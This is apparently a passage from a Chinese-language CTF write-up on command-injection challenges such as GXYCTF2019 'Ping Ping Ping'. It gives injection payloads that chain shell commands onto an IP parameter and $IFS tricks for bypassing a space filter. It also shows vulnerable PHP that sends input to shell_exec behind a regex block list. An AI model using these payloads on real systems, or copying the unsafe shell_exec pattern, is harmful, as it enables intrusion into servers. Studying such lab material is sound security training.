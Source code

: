 所以可以在ip后面加上其他的命令，比如`ls`，一层一层找，找到了flag：

`flag{86f478de-728b-40dc-aa9e-4be502142f24}`

payload: `127.0.0.1|ls ./../../../flag`

## [GXYCTF2019]Ping Ping Ping

故技重施，被骂了呜呜呜：

````
/?ip=127.0.0.1|cat%20flag.php

/?ip= fxck your space!
````

看来过滤了空格，尝试绕过：

````
$IFS
${IFS}
$IFS$1 
````

尝试直接输出`flag.php`，发现flag也被过滤，所以先尝试读取`index.php`：

payload: `?ip=127.0.0.1|cat$IFS$1index.php`

````php
|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "
";
  print_r($a);
}

?>
````

让AI分析一遍：

1. 过滤的字符和符号：
代码使用 `preg_match()` 对 IP 地址进行检查，防止特殊字符或符号（如 `|`, `'`, `"`, \\, `(`, `)`, `[`, `]`, `{`, `}`, `/`, `?`, `*`, `<`, `>`, 空格等）被输入。

2. 阻止空格：
如果输入包含空格，程序会拒绝执行并输出 "fxck your space!"。
